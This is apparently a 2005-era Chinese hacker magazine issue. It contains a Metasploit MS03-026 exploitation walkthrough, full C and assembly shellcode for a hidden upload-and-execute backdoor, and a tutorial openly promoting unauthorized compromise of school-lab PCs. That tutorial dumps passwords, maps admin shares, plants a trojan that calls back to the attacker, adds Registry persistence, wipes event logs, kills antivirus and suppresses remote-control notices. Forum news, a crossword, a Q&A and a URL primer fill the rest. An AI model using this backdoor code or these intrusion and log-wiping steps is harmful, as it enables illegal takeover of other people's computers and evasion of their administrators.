如果要了解更详细的信息，则可以输入“info msrpc_dcom_ms03_026”，得到的结果如图8所示。超级详细，连 payload、Nop、encode 信息、漏洞描述和相关参考引用都给列出来了。

```text
msf > info msrpc_dcom_ms03_026
Name: Microsoft RPC DCOM MS03-026
Class: remote
...
Available Options:
RHOST
RPORT 135
```

图8 msrpc_dcom_ms03_026 的详细信息

刷刷地翻了几页，哈哈，正好是登录到 MSF 显示的 75 个，这么多，嘴都笑烂了（狂YY，口水快流到地上）！为学习目的，这里结合之前的漏洞扫描，并锁定我的测试目标配置如下：

| 字段 | 值 |
|---|---|
| IP | 192.168.3.165 |
| OS | windows 2k sp4 |
| VULNERABILITY | ms03-026 RPC DCOM 缓冲区溢出漏洞 |

从 show 出来的 exploits 找到 RPC DCOM 这一项，如图6中反白的部分。

图6 MS03_026 缓冲区溢出漏洞时的 exploits

嘿嘿，是它了，输入：“use msrpc_dcom_ms03_026”，回车我们就转入到 exploits 利用模式，如果配置过路由或交换机的朋友肯定对这机制很熟悉了。OK，确定目标了，看看利用 rpc dcom 漏洞，MSF 都需要些什么条件，或者说选项呢？

输入如下命令“msf msrpc_dcom_ms03_026 > show options”，如图7所示。

```text
msf msrpc_dcom_ms03_026 > show options
Exploit options
required RHOST
required RPORT 135
Target: Windows NT SP3-6a/2K/XP/2K3 ALL
```

图7 show options

看来我们要设置的东西不是很多，而进行目标设置，专门有个 set 的命令，但在 set 之前，我们要了解好每一个需要设置项的情况信息。先设置目标吧，输入“msf msrpc_dcom_ms03_026 > show targets”，如图9所示。

```text
msf msrpc_dcom_ms03_026 > show targets
Supported Exploit Targets
0 Windows NT SP3-6a/2K/XP/2K3 ALL
```

图9 目标设置

跟 show options 显示的一样，因为测试目标机为 Windows 2k SP4 中文版，所以是符合的。看到前面的 0 了吗，它代表的是目标的 ID 号，专门用于设置的。也有可能出现像 LSASS 下面这样 3 个可选的情况，如图10所示。

```text
msf > use lsass_ms04_011
msf lsass_ms04_011 > show targets
0 Automatic
1 Windows 2000
2 Windows XP
```

图10 可选的情况

设置目标的命令如下：“msf > set TARGET 0”，同理，设置目标 IP 和端口，如图11所示。设置后还可以通过“msf > set”命令来查看我们设置的情况（参见图11）。好了，设置完远程目标主机后，我们再继续：“msf msrpc_dcom_ms03_026 > show advanced”，如图12所示。

嗯嗯，看到不少 rpc dcom 漏洞的一些额外信息。好像对我们没什么用，不管，Go on！看看可用的 payloads 吧：“msf > show payloads”，如图13所示。

哇！是不是有种想唱歌的感觉，爽！这么多种溢出方式，能完成各种奇妙的功能，本人第一次用的时候，真扯着嗓子骂了一句：妈的，Y 的太 NB 了！什么 dll 注入啊，vncinject 啊，如果要你……

- 第一列 Exploit 的可选状态，只有两种 required 和 optional；required 是必须设置的，optional 则是可以根据你喜好来选择的。  
- 第二列 Name 告诉你选项设置的名字；RHOST 就是 remote host，表示你要攻击的远程目标主机，RPORT 则是 remote port，表示远程目标端口。

# 实战：菜鸟学溢出漏洞实战演练

自己写这些 shellcode，哭死你都可能啊。好，我决定从简行事，就用最简单的 win32_bind 吧。

啦啦啦，不知道谁说过，简单才是最好的。我也相信这点，功能越复杂的 payloads，成功率就必然越低。输入命令：“msf msrpc_dcom_ms03_026 > set PAYLOAD win32_bind”，设置 payload 为 win32_bind，如图14所示。

```text
msf msrpc_dcom_ms03_026 > set PAYLOAD win32_bind
PAYLOAD => win32_bind
```

图14 设置 payloads

为确保符合 rpc dcom 溢出成功，还是要看看 win32_bind 这个 payloads 的相关信息。输入“msf msrpc_dcom_ms03_026 > info win32_bind”，如图15所示。

```text
set EXITFUNC seh
set LPORT 4444
```

第一个 set 完成溢出时退出所用的技术是 Structured Exception Handler（结构化异常处理），这也是默认选项，当然你也可以用 process 或 thread 选项，意思不言自明。第二个 set 设置绑定 shell 的目标监听端口为 4444（注意是目标的，不是我们攻击主机的），你也可以自己设置其他的哦。

万事俱备，激动人心的时刻终于来临了，请屏住呼吸。溢出开始，输入“msf msrpc_dcom_ms03_026 > exploit”，如图17所示。哈哈，成功得到对方 command shell 了。

## 后记

Metasploit Framework 里的 exploits 是可及时更新的，而且攻击针对的系统平台多样化，可扩展性很好。但由于篇幅原因，本文只是简单地介绍如何利用 Metasploit Framework 进行实际的溢出。很多其他强大功能及其用法大家可以从主页 www.metasploit.com 获得。如果你是溢出高手，并不满足于只使用它的工具，而是想学其中的溢出技术的话，可以看看安装目录下的 src 目录的东西，对你肯定有帮助的哦。

> 【本文所涉及的 Cygwin，framework-2.4 Release 在光盘中均有收录】

这回菜鸟们又捡到一样好东西了。不过有网友说这 Metasploit Framework 太强大了，随便设置一下就可以生成自己的溢出程序，还是劝鸟先别不去学习溢出的原理。呵呵，小编倒不这么认为，最少说 Metasploit Framework 能让大家对溢出有了一个更深但又很直观的感受，对大家的深入学习是很有帮助的。

# 《Q版黑客——缓冲区溢出教程》学习笔记之三

# Win32 ShellCode 实现文件下载、上传与执行（下）

scuhkr / 古开元

上期我们学习了作者用植入的 ShellCode 实现 http/FTP 下载文件的功能，让大家在利用《Q版黑客——缓冲区溢出教程》所讲的缓冲区溢出的基础知识和原理，能通过实例来进一步掌握。本期接着为大家讲述如何用 ShellCode 实现上传文件并执行，喜欢的读者可千万不要错过哟！

## 二、上传文件并执行

既然能下载文件并执行，那能不能上传文件并执行呢？答案是肯定可以的。

首先，要讲述这里“上传”的概念：因为我们的 ShellCode 是植入到目标主机上执行的，所以当利用漏洞程序进入到目标主机后，我们就通过 ShellCode 所完成的功能——通常情况下是作为一个木马或后门监听。

先来看一个经典的 C 代码的例子，注意，为了保证程序尽可能地“瘦小”，本例子没有任何出错处理，这也是一般编写 ShellCode 的不成文规定。

```cpp
// up_exec.cpp
#include <winsock2.h>
#include <windows.h>
#pragma comment(lib,"ws2_32.lib")
#define BUFFSIZE 4096

void main(){
    WSADATA wsaData;
    SOCKET sock = SOCKET_ERROR;
    SOCKET sock2 = SOCKET_ERROR;
    HANDLE hFile = NULL;
    CHAR buffer[BUFFSIZE];
    CHAR* file = "abcd.exe"; // 后门程序文件名
    int len1 = 0;

    WSAStartup(0x0101,&wsaData);
    sock = socket(AF_INET, SOCK_STREAM, 0);
    SOCKADDR_IN l_addr;
    SOCKADDR_IN r_addr;
    l_addr.sin_family = AF_INET;
    l_addr.sin_addr.s_addr = INADDR_ANY;
    l_addr.sin_port = htons(7777);
    bind(sock,(SOCKADDR*)&l_addr,sizeof(l_addr));
    listen(sock,0);
    sock2 = accept(sock,(SOCKADDR*)&r_addr,0);

    hFile = CreateFile(file,
        GENERIC_ALL,
        FILE_SHARE_DELETE|FILE_SHARE_READ|FILE_SHARE_WRITE,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_HIDDEN|FILE_ATTRIBUTE_SYSTEM,
        0);

    while(1){
        DWORD len2 = 0;
        len1 = recv(sock2, buffer, BUFFSIZE, 0);
        if(len1 <= 0){
            closesocket(sock2);
            closesocket(sock);
            WSACleanup();
            CloseHandle(hFile);
            break;
        }
        WriteFile(hFile, (LPVOID)buffer, len1, &len2, NULL);
    }
    WinExec(file, SW_HIDE);
    ExitProcess(0);
}
```

```cpp
len1 = recv(sock2, buffer, BUFFSIZE, 0); // 接收文件
if (len1 <= 0) {
    closesocket(sock2);
    closesocket(sock);
    WSACleanup();
    CloseHandle(hFile);
    break;
}
// 写到目标主机指定的文件
WriteFile(hFile, (LPVOID)buffer, len1, &len2, NULL);
}
WinExec(file, SW_HIDE); // 执行
ExitProcess(0); // 正常退出
```

为了测试，我们再写一个 abcd.exe 小程序，该程序的功能是生成一个名为 abcd.txt 的文件，里面包含了“www.nohack.cn”的字符串。代码如下：

```cpp
#include <stdio.h>
void main()
{
    FILE* fp = fopen("abcd.txt", "w");
    fprintf(fp, "www.nohack.cn");
    fclose(fp);
}
```

OK，先执行 up_exec.cpp 生成的 up_exec.exe，再借助有“瑞士军刀”之称的 nc.exe 工具，用法如下：

```text
nc.exe targetIP targetPort < file.exe
```

“<” 的意思是把文件 file.exe 传到 IP 为 targetIP，并在监听 targetPort 端口的主机上。比如，我在测试注入（up_exec.exe 放置在 IP 为 192.168.3.155 的 C:\windows\system32 里）运行，因为程序中绑定的端口为 7777，测试用的木马小程序为 abcd.exe；所以有：

```text
nc.exe 192.168.3.155 7777 < abcd.exe
```

结果正如我们预料的，在 192.168.3.155 的主机 C:\windows\system32 目录下生成了 abcd.txt，内容正是“www.nohack.cn”。

下面，我直接上面 C 代码的汇编代码，同样给出详细注释：

```asm
[BITS 32]
%define BLOCKSZ 100

jmp Data
Start:
pop ebx
push ebp
mov ebp, esp
sub sp, 52
mov esi, esp
sub sp, 12
call FindKernel32
mov edi, eax
push dword edi
push 0xec0e4e8e
call FindFuncAddress
...
```

```asm
mov [ebp+8], eax
lea edx,[ebx+48]
push edx
call [ebp+8]            ; LoadLibraryA("ws2_32.dll")
mov [ebp+8],eax
lea edx,[ebx+52]
mov [esi+52],edx
push byte 0xd
pop ecx
KernelAddr:
cmp cx,13-4
jne Here
mov edi,[ebp+8]
Here:
mov [esi],ecx
push dword edi
push dword [ecx*4+ebx-4]
call FindFuncAddress
mov ecx,[esi]
mov [esi+ecx*4-4],eax
loop KernelAddr

WSAStartup:
sub sp, 400
push esp
push 0x101
call [esi+4]            ; WSAStartup(0x101,&wsaData)

WSASocketA:
xor edi,edi
push edi
push edi
push edi
push edi
inc edi
push edi                ; SOCK_STREAM
inc edi
push edi                ; AF_INET
call [esi]              ; socket = WSASocketA(2,1,0,0,0,0)
mov ebx, eax

Bind:
xor edi, edi
push edi
push edi
push dword 0x611E0002
mov edx, esp
push byte 0x10
push edx
push ebx
call [esi+8]            ; bind(sock,(SOCKADDR*)&L_addr,length)

Listen:
push edi
push ebx
call [esi+12]           ; listen(sock,0)

Accept:
push edi
push esi
push ebx
call [esi+16]           ; accept(sock,(SOCKADDR*)&r_addr,0)
mov ebx, eax

CreateFile:
push byte 0
push byte 6
push byte 4
push byte 0
push byte 7
push 0x10000000
push dword [esi+52]
call [esi+36]           ; CreateFile()
mov edi,eax             ; hFile

ConfigBuffer:
sub esp,BLOCKSZ
mov ebp,esp

ReadSocket:
lea edx,[ebp+100]
push byte 0x00
push BLOCKSZ
push edx
push dword ebx
call [esi+20]           ; recv(sock2,buff,4096,0)
cmp eax,0xFFFFFFFF
je End
cmp eax,0
je End

WriteFile:
lea edx,[ebp+100]
push byte 0
push ecx
push eax
push edx
push edi
call [esi+40]           ; WriteFile(hFile,buffer,len1,&len2,NULL)
jmp ReadSocket

End:
CloseHandle:
push edi
call [esi+44]           ; CloseHandle(hFile)
push 0
push dword [esi+52]
call [esi+32]           ; WinExec("abcd.exe",SW_HIDE)
xor edi,edi
push edi
call [esi+28]           ; ExitProcess(0)

FindKernel32:
FindFuncAddress:
LoopFindFunc:
HashFunc:
FindFunc:
FuncNotFound:
Done:

Data:
call Start
; hash 表
; WSASocketA / WSAStartup / bind / listen / accept / recv / closesocket / ExitProcess / WinExec / CreateFileA / WriteFile / CloseHandle
; "WS2_32.DLL", "abcd.exe"
```

呵呵，是不是很长，其实只要弄清原理和流程，发现也不过如此，对吗？

> 【本期光盘中附带了本文的两个 asm 实现文件和 cpp 实现文件】

阅读点评：这一期的《Q》学习笔记又受益一段落，不知大家是否有了新的收获。总之，真诚希望通过本文，能给正在学习缓冲区溢出技术和 Win32 ShellCode 编写技术过程的朋友们提供一些帮助。必须。

公元2005年10月1日，一个令中国人民鼓舞振奋的日子，祖国56岁华诞，同时我们的NoHack总部迁进了现代化的办公大楼。这里透露下，是与EST共用的一个服务器，同时各位如果也想租的话，可以仔细阅读本期刊首语。坛宗每日各个门派前来讨论的人数呈几何级数增长，才有“挤破坛宗办公大楼”的趋势。（什么？你不懂我说什么？你一定没买10月的书宗镇宗之宝——《黑客手册》，这次告诉你，下次记得哦，每期都要买啊！哈哈，我说的“挤破了坛宗的办公大楼”就是逛坛论坛啊）

回想56年前的10月1号，中华人民共和国在嘹亮的国歌声中，在全国人民的期待中成立了；展望今年的10月1号，我们的NoHack总部在全国的小黑小菜们的殷切期待下，由NoHack总部主席团成员“空气”奋斗了个日日夜夜最终盖成。回首，空气看了看自己这么些天建成的总部大楼，第一次笑了出来（因为是空气，所以要想笑一下，很不容易啊！因为空气不是实体啊）。绿色食品的概念深入人心，现在放眼看去，起绿色环保名字的很多，最近江湖之上流行土豆、番薯、地瓜、红薯等字眼的QQ名字或者ID。据黑裤子说吃了这些，人会得“学有风”的，但不知道为什么大家都渐爱这个，喜欢这个，好像是都想自己得学有风，然后修炼那传说中的“皮鞋剑法”罢！据说凡是得了这个病的就可以修炼这个剑法了。这个在NoHack总部都是有记载的，并且都在他们的碗里。大家可以去“我的照片”堂去参观拜访各位江湖侠士的靓照。里面帅哥奇多，美女更多。如果大家想看美女的话，小行这里推荐你一绝世佳人——土匪婆，想看美女漫步在夜园吗？想看她会心一笑吗？想看美女生气吗？那么，不要犹豫啊！去吧，美女被人抢去可不要怪俺没通知你。

**提示：去看美女的直通车：http://www.nohack.cn/bbs/viewthread.php?tid=286&page=1**

新的NoHack坛宗，呈现出新的气象，一派欣欣向荣，前来道喜、申请各个堂堂主的各派高手络绎不绝，如潮水一样前来应聘各个分堂堂主。

整体的技术水平上了一个大的台阶，尤其是“菜鸟解惑”堂，其堂内气氛活跃，大家都十分踊跃，积极发言。这个堂每天都有大把大把的人前去求经，大把大把的问题被提出，所提问题当天都能被堂主大把大把地圆满解决，受到大把大把的江湖儿女的好评。大家只要看不懂的、不会的都可以去“菜鸟解惑”堂提出来，里面的两位堂主绝杀和Noise很负责，各位有什么疑问就快来“菜鸟解惑”堂吧！谁保教你的疑问得到解决。再看“工具交流&使用心得”分堂在轰轰烈烈开展十八般黑客兵器使用心得大会。黑，起码要会用工具，如果你连一个黑客工具都不会用的话，那么你就失去了做菜鸟的资本。实际上，大家都有很多好用的、好玩的工具，拿出来，分享出来，简单介绍下你第一次使用黑客工具时的心得，谈好谈坏没关系，重在参与。还等什么？赶快把你的心得打出来，机会不容错过，赶快参加吧！奖品是一个神奇的百宝箱（512M闪盘）。是不是很迷人啊？而新会员还有大奖送给你呢！凡666、888、1111、5555、8888注册的会员均有一个神秘礼品，究竟最终谁可以得到，大家敬请擦亮眼睛，拭目以待啊，以后会在这里公布幸运英雄名单的。如果你想去夺得，那就到坛宗（www.nohack.cn/bbs）去等待时机吧！

最近江湖新冒出来个小子，中原年轻的高手，人称oicq我爱玩（其实，不是你爱玩，我也爱玩啊。强烈建议收回你的名字，否则，你有被PK的危险）。据说此人能不吃不喝，只要叫他上QQ就足以。可见其痴迷程度。为了叫大家对此人有所了解，我们坛宗特意聘请了特务营调查此人，下面是其详细资料：

- 被调查人：oicq我爱玩
- 性别：不详（未仔细查看）
- 爱好：喜欢交朋友（讲义气、重感情的那种），泡论坛，运动……
- 资料：现在对hack失去激情，越来越觉得朋友比技术重要了，偶的朋友说一句“如果有下辈子，记得我们还要做朋友”（感觉有点像男女主人公临死之豪言壮语，哈哈，不要打我啊！）
- 家庭住址：http://bbs.myhacker.org
- 对他人要说的话：祝天下的菜鸟们早日起飞！

最近还有个很不错的现象就是各位江湖小菜、大菜、小黑、大黑们能就书宗的宝典《黑客手册》中的招数提出自己的不同意见。path朋友就对7-8合刊关于内外网和VIDC的使用提出了6点疑问：

- 主机一到底是肉鸡还是网关？
- VIDC服务端难道运行在内网肉鸡上？
- 客户端运行在哪里？
- 端口会映射到主机2的端口上？好像应该是映射到运行服务端机器的端口吧。
- 看截图，服务端好像应该运行在网关上，好像没那么容易在网关上做映射吧。
- 希望编辑认真斟酌。

受到了NoHack人员的一致关注，撰写此篇心得的作者ivory朋友以及各路神仙都发表了自己的观点，众人在坛宗你一言，我一语，很经典。详细情况：http://www.nohack.cn/bbs/viewthread.php?tid=592&page=1

这里十分感谢path及其他朋友，正是你们的执着，促进了书宗前进的动力，正是因为有了你们，我们的江湖之宝《黑客手册》才能越来越经典。

> 坛宗的一位MM堂主心月的名言：“人皆有智，人皆有愚，聪明还是笨，都是相对的！”  
> 而一位能喝酒的鱼的人生格言：“男人靠征服世界而征服女人，女人靠征服男人而征服世界。”  
> 想想太有道理了，你不同意的话，就到坛子上与他们辩辩论吧！

# 黑客填字游戏

填字游戏网格（含编号1–24的黑白方格）

（答案将在下期公布）

## 游戏规则

- 词语分横向和竖向，横向词语顺序从左至右，纵向词语顺序从上至下。
- 不同词语可能共享同一格字母/汉字，填写时需连续思考。
- 按题目提示作答，若实在不会可自行检索。
- 答案含中文与英文，英文占大多数且多为常见简写。
- 中文词语后通常附有注释提示。
- 每个提示后有难度星级（★~★★★）。
- 现在开始游戏。

## 横线问题

- 1. 在 whois 尚未流行前，常用于查询对方 DNS 分布情况的命令。★★
- 3. TCP/IP 协议集中用于建立电话线路及 ISDN 拨号接入 ISP 的子协议（中文名点对点协议）。★★★
- 5. UNIX 系统的一个分支，强调系统安全性。★★
- 7. 软件开发工具包的中文缩写。★★
- 8. 脚本语言中常用于替换字符串的函数名。★
- 9. 世界使用率很高的 Web 服务器软件。★
- 10. 计算机中最高权限的代称。★
- 11. 许多整站程序常用于保存数据库配置的脚本文件名。★
- 12. MySQL 中用于插入数据的语法名。★★
- 15. Windows 中在文件内搜索字符串的命令。★★
- 16. 关于缓冲区溢出的词语，与“堆栈”相关。★★
- 17. 关于缓冲区溢出的词语，与上题关系紧密。★★
- 18. SQL injection 中常用来计算字符串长度的函数。★
- 19. 美国国家标准信息交换代码简称。★
- 20. 推出 UNIX 系统的著名公司。★
- 21. SQL injection 的常用函数。★
- 22. IIS 的重要组件，可通过 HTTP 提供远程文件存储服务（曾有重大漏洞）。★★
- 23. MySQL 中用于删除表的函数/语句名称。★★★
- 24. 多种语言中用于在屏幕输出字符的函数名。★★

## 竖线问题

- 2. 网络中一种重要传输协议名称。★
- 3. 超级女声中常用的淘汰方法。★
- 4. SQL 语言中用于建立表的语法名。★
- 6. 堆栈中取出数据的动作名称。★★
- 13. 脚本中用于验证用户身份、记录信息并在后续请求中确认身份的一种方式。★★★
- 14. UNIX 中用于查询用户情况的实用程序，早期入侵者常用命令。★★
- 15. PHP 中用于执行命令的函数名。★★★

# 29号信箱

## 回执摘录

- 我们已经推出《新网吧黑客一点通》教程
- 这本书的内容挺适合我
- 我不太感兴趣
- 我希望出一些图书教程

（读者来信与编辑部回复节选，包含对黑客技术学习、网络安全与投稿意见的讨论，正文为多段连续文字。）


# Q&A

> 我同学的 ADSL 能上 QQ 但上不了网页、MSN 等，是什么原因？

答：常见原因为运营商侧策略导致对部分协议限制，可能出现 TCP 可用而 UDP 异常等情况，建议联系服务商或更新拨号/网络设置。

> 怎样防止别人利用 SQL 空口令连接？执行命令时提示找不到 `master..xpcmdshell` 如何恢复？

```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll';
sp_addextendedproc 'xp_cmdshell','xpsql70.dll';
```

答：应为 SA 账户设置强密码并限制访问；如组件缺失可按步骤恢复扩展存储过程，随后重启/刷新服务。

> 局域网中知道 IP，如何攻击？

答：不建议非法攻击。技术上可能涉及 ARP 欺骗等，但会留下痕迹并有法律风险。

> 一个网站有 FTP 空口令时，我们能干什么？

答：先识别 FTP 服务类型与版本，评估权限与漏洞风险；及时修补和最小权限配置。

> 内网没有服务器，能否溢出到外网？

答：取决于程序行为及网络拓扑；部分利用需反连或具备公网可达性。

> FTP 服务端口不能改、又不能限 IP，怎样降低被入侵风险？

答：禁用匿名访问、按需授权只读权限、及时更新补丁，防止溢出与提权。

# 肉鸡接龙黑客宫

> 许多读者反映看完了文章，还是不会操作（众编辑：狂晕\~\~\~）。大家不要担心，从这一期开始，每篇文章都会有相应的辅导动画，相信大家能轻松学会“未经许可拿肉鸡”。想拥有更多的肉鸡吗？那么请你先从基础开始吧，建立好肉鸡场后，就可以出去狂杀狂抓鸡了，哈哈！

## 一、肉鸡串串烧

- 1. 使用 ADump 获得本地系统的账号和密码
- 2. 如何启动目标系统的 telnet 服务
- 3. 上兴远程控制2006的基本使用方法
- 4. DameWare NT Utilities 的基本使用方法

菜鸟都想拥有自己的肉鸡，但通常找不到简单易用的方法。今天我给朋友们介绍几种常见的方法。

俗话说：兔子不吃窝边草。但对于找肉鸡来说，还是从身边下手比较容易些。尤其是大型机房、网吧，通常在管理方面会存在漏洞，下面就结合实战讲一种在局域网抓鸡的秘诀吧。

我的环境：学校机房，Win2k系统  
我的工具：ADump.exe（用于获得账号和密码）、上兴远程控制2006（可视化图形控制软件）  
漏洞说明：默认共享，密码一致  
详细实战步骤如下所示。

## 二、获得本地机账号和密码

在命令提示符下输入：ADump.exe -d（如图1）。


可看到用户域：USR18 用户名：hgjf 密码：syhg。大多数管理员为了方便管理，一般会将机房的密码统一设置，所以获得了本机密码就相当于知道了整个机房机器的密码，这就为后面的远程控制打下了基础。

## 三、映射硬盘

在命令提示符下输入：`net use g: \\202.204.198.160\c$`，将局域网内某一台机器的C盘映射为本地的G盘。由于密码一致，就不用填写账号和密码了（如图2、图3）。

## 四、上传木马

对于小菜来说最常用的方法就是，找一款性能好一点的木马，对肉鸡进行可视化图形控制。这里向大家介绍一款好用的小马——上兴远程控制2006，该木马适用于 Windows 2000/XP/2003，隐藏性好，功能齐全。

最新极速屏幕传输技术。先打开上兴远程控制2006主程序配置一下（如图4）。这里我们选择静态IP连接（可根据自己情况选择），填上我们的IP和端口：202.204.198.158:1017，再设个连接密码：1017，其他可以随便填写。一切填好后点“生成服务端”生成木马。如果生成成功会提示“生成服务端成功”。接着把我们生成的木马服务端.exe复制到肉鸡的C盘，也就是我们本地的G盘。由于是在局域网操作，传送文件就变得简单多了，复制粘贴就OK了（如图5）。


## 五、运行木马

这个方法就比较多了，我们知道了账号密码可以连接IPC$用at命令运行程序，也可以用种植者运行。这里我们就直接telnet上肉鸡运行。

在命令提示符下输入：`telnet 202.204.198.160`（如图6）。失败？那么就是肉鸡没有开telnet服务。大家可以试试Win2k自带的管理工具，用它来开启肉鸡的telnet服务。

右击“我的电脑”选择“管理”，在弹出窗口右击“计算机管理（本地）”点“连接到另一台计算机”，然后选择要控制的肉鸡点“确定”（如图7）。因为我们已经知道了肉鸡的IP地址，也可以在“名称”里直接填写IP选择肉鸡。


操作本地机器一样，开启肉鸡的telnet服务（如图8）。


启动成功后再使用telnet命令进行连接，并运行刚才拷贝过去的木马服务端程序（如图9）。


## 六、远程操控

现在我们就可以等肉鸡上线找我们了，不一会肉鸡就上线了（如图10）。

```txt
C:\WINNT\system32\cmd.exe telnet 202.204.198.17
欢迎使用 Microsoft Telnet 服务器。
C:\>服务端.exe
C:\>服务端.exe
C:\>
```


嘿嘿，这个木马的功能很多，例如：键盘记录（可以用来盗QQ）……下面我就用一款国外的控制软件 DameWare NT Utilities 来具体讲解一下。

这是一款功能强大的 Windows NT/2000/XP/2003 服务器远程控制软件，只要拥有一个远程主机的管理员账号，就能使用它远程GUI下登录交互控制主机。

运行 DNTU.exe 选择自己所在的网络，不一会就能看到和自己处于同网络的所有计算机（如图11）。又因为账号、密码和本机一样，所以直接选择要控制的机器就可以完全控制了。


“Event Log”日志管理功能。查看、修改、删除日志，这个功能很重要，如果你远程连接了目标，那么目标的系统会记录你连接的记录（如图12）。


可以看到清楚地记录了我们的连接信息，如果被管理员看到那还得了。这时可以利用删除日志功能了，做到“来无影去无踪”，入侵肉鸡不留痕迹（如图13）。


> 小提示：该软件的删除日志功能通常是指全部删除，不能删除某一条记录，所以如果对方是个菜鸟管理员还无所谓；如果是有点经验的管理员，只要你删除了记录，那么管理员一看系统的相关日志，就知道自己的电脑被入侵过。

“Processes”进程管理功能：用这个功能可以查看肉鸡上的程序进程，如果进程中出现杀毒软件、防火墙，你可以通过该功能结束它们。

# 12月 肉鸡接龙之黑客至尊篇


图14 进程管理功能界面

还有很多功能就不一一介绍了，就介绍几个简单实用的功能吧。“Registry”注册表管理功能，可以用这个功能添加开机自启动项来运行木马，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 添加即可（如图15）。


图15 注册表管理功能界面

“Remote Command”管理功能：可以远程执行命令管理肉鸡。“Remote Control”远程监控功能：填写好你要连接的肉鸡IP、账号、密码，就可以连接了（如图16）。


图16 远程控制功能界面

默认情况下使用该软件的远程控制功能时，当连接成功后目标桌面上会有一个提示，这个提示很容易暴露你的目标。我们还需要设置一下关闭这个提示。选择“Settings”设置，在安装设置里操作（如图17）。把“Set Service Startup type to ‘Manual’ default is”和“Copy Configuration File DWRCS”这两处选中后，点击“Edit”进入详细设置界面。在 Notify Dialog 页里进行如下设置，去掉……


图17 安装属性设置界面


图18 去掉连接时的提示信息

“Notify on Connection”前面的小钩，连接的时候就不会出现提示了（如图18）。在 Additional Settings 页中去掉“Enable SysTray Icon”前面的小勾（如图19），连接的时候目标任务栏上就没有DameWare的图标显示了。设置好就可以放心连接肉鸡了（如图20）。详细的演示请看光盘上的动画教程。


图19 设置隐藏连接后出现在任务栏上

## 六、总结

肉鸡的获得重在思路，希望本文能对大家有所帮助。远程控制软件的使用还要多加实践哦。希望能在以后日子里和大家共同学习研究，今天就说到这里吧，有技术上的疑问可以到论坛来找我。


图20 远程连接目标成功

> 【本文涉及到的相关工具ADump.exe、上兴远程控制2006、DameWare NT Utilities，光盘中均有收录】

> 本文中所使用的一些方法是目前菜鸟们最喜欢使用的方法，但通过DameWare来控制肉鸡的方法不可取，除非对方非常笨，不然很容易暴露自己，毕竟该软件是用来管理的。DameWare是通过IPC$来进行一系列的控制操作的，只要大家把IPC$禁了，也就不用担心被这个软件骚扰了。

许多菜鸟总是迫不及待地想学到自己感兴趣的黑客技术，在各大黑客论坛乱串，不是找这个拜师就是找那个学艺，很多读者想必也吃过闭门羹吧！我自己也是，从中认识到自学的重要性，别人没有义务手把手教你吧，所以一定要靠自己。我总结了一句话：“你只能从别人那里学到经验，不能学到基础。”如果你还处于入门级的阶段，那么赶快从“菜鸟恶补”开始吧！

## 深入浅出地懂URL（上）

- 从本文你可以学到：
- 什么是URL
- URL结构剖析
- URL编码
- Unicode和UTF的字符转换

## 路径：互联之门的钥匙

在网上冲浪时，我们每天都要查看最新的新闻，打开Web免费信箱收发信件，这些操作都需要我们输入网址才可浏览或访问，并且当我们在网页上点击超链接时，也由它判断自己当前所在的位置。网址，就是一种URL（Uniform Resource Locator），即统一资源定位器。

你可能迷惑了，明明是网址，为什么又要改用术语称之为URL呢？不妨让我先说说“资源定位器（Resource Locator）”的含义。平时我们使用电脑，都有一个目录、文件的概念，比如说我的QQ安装在D盘的QQ2005beta1这个目录下，QQ主程序文件名是QQ.exe。平时我使用QQ当然不会先打开D盘，进入QQ2005beta1这个目录，再运行QQ.exe，我的方法和你一样，也是在桌面上双击QQ的快捷方式。点右键查看QQ的快捷方式，就能看到QQ主程序的完整路径为：“D:\QQ2005beta1\QQ.exe”（如图1）。


QQ的快捷方式通过这条路径找到QQ.exe这个“资源”，这条路径就可以称为我的个人电脑上的“资源定位器”。所以这所谓的“Resource Locator”，虽然被人家生硬地直译为“资源定位器”，它实际上就是一种在访问资源时表示地址、有特殊意义的路径。

不过，这条路径仅仅在你自己的机器上才有效，你在电脑的“资源管理器”地址栏中输入“D:\QQ2005beta1\QQ.exe”这个路径，绝对不会打开我机器上的QQ程序。你要是想使用我装的这个QQ程序怎么办呢？很简单，我们要拉条网线，组成一个小局域网，然后我们共享QQ2005beta1这个目录，并且只有我给你相应权限后，你才可能通过一条这样的路径“\\192.168.1.13\QQ2005beta1\QQ.exe”找到我的QQ程序进行执行（如图2）。

这种路径也有个学名叫UNC（Universal Naming Convention），中文为通用命名约定，它的作用是用双斜线“//”或双反斜线“\\”指定计算机名称，单斜线指定目录，用以在同一个网络内取得资源。比如前面说到的“\\192.168.1.13\QQ2005beta1\QQ.exe”这个UNC路径，其含义就是用IP标识我的计算机，QQ2005beta1则是共享目录，QQ.exe是共享文件，这个UNC路径就起到了“网络资源定位器”的作用。

很容易看出，UNC还仅仅是简单的“局域网络共享资源定位器”，若要在跨越全球范围的国际互联网中定位某个特定资源，需要借助一种更强大的路径。它必须能够屏蔽掉细节，实现全球网络上唯一识别一个特定的资源，它就是URL。这就是为什么我们能够通过仅仅在浏览器中输入不同的网址（URL），就可以随意地访问北京、纽约、伦敦或世界每一个联网地方的网站、FTP站点和BBS。

### URL结构剖析

### 一、IP和域名：主机的标志

> 什么是网络？  
> 其本质就是计算机的互联。网络上使用的路径，自然需要映射到一台实际计算机上，互联网如此之大，在网络层上惟有IP才是每台独立计算机的唯一标志；另外，为了方便人们记忆，另有一套与IP地址一一映射的域名系统，只要DNS服务正常的情况下，一个域名也同样可以作为计算机的标志。

对于网址的理解将更加透彻。比如新浪网有好几个域名“www.sina.com”“www.sina.com.cn”，它们的区别在哪里呢？“www.sina.com.cn”这样一个域名是否是由“www.sina.com”简单地加上一个“.cn”构成？笔者绘制了一幅以sina网站为例的域名体系结构示意图（如图3）。


从图中可以看到，域名系统是由一个根向下派生的，由于根符号“.”不存在实际意义，故人们一般俗称“.com”“.net”“.org”“.cn”这一级为顶级域名。其中“.com”“.net”“.org”属于分类代码，“.cn”表示国别代码；而再下面一级的“sina”等椭圆形名称都是域，它们根据其名字分别表示组织属性、组织名称等意义，最底层矩形内的www就是主机名，一般www都表示Web服务器所在的主机。以此类推，你就可以明白“smtp.sina.com”“mail.sina.com.cn”分别指向不同的服务器。


> 小提示  
> “服务器”既指提供服务功能软件的计算机，也可指软件级别的服务程序。平时提到服务器时，常是两者并存，例如网站的WWW服务、邮件服务等可能运行在同一台或不同计算机上；大型站点通常由集群组成。

### 二、UNIX目录结构与URL路径层次结构

